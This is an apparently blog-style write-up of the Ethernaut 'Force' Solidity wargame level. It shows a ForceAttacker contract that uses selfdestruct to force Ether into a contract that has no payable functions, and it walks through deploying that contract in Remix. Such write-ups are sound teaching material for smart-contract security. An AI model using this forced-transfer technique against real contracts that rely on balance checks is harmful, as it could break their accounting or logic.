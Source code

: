 ```yaml
---
layout: post
title: Ethernaut - 7. Force
date:  2022-08-28
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌕🌑🌑
> Some contracts will simply not take your money ¯\_(ツ)_/¯ <br /><br />
  The goal of this level is to make the balance of the contract greater than zero.<br /><br />
  Things that might help:<br />
  - Fallback methods 
  - Sometimes the best way to attack a contract is with another contract.
  - See the Help page above, section "Beyond the console"

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## Writeup
The keypoint to complete this level is `selfdestruct`. After calling `selfdestruct` method, contract will send all remaining Ether to a designated address. A malicious contract can use selfdestruct to force sending Ether to any contract.

1. Get new Instance.
2. Create a contract
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.16;

    contract Force {/*

                      MEOW ?
            /\_/\   /
        ____/ o o \
      /~____  =ø= /
    (______)__m_m)

    */}

    contract ForceAttacker {
        Force force;

        // For a contract to be able to receive ether, the constructor function must be marked payable.
        constructor(Force _force) payable { 
            force = Force(_force);
        }

        function getBalance() public view returns (uint256) {
          return address(this).balance;
        }

        function attack() public {
            address payable addr = payable(address(force));
            selfdestruct(addr);
        }
    }
    ```
3. Compile & Deploy 
    <img src="https://i.imgur.com/K7kJZee.png" alt="remix" style="width:400px;"/>
4. Click **getBalnce** button, it will return 1wei.
    <img src="https://i.imgur.com/4AevuKw.png" alt="remix" style="width:300px;"/>
5. Click **attack** button. The contract will self-destruct, and the remaining 1wei will be send to Force contract.
6. Submit instance ξ( ✿＞◡❛)

## Reference
[Solidity by example - Self Destruct](https://solidity-by-example.org/hacks/self-destruct/)
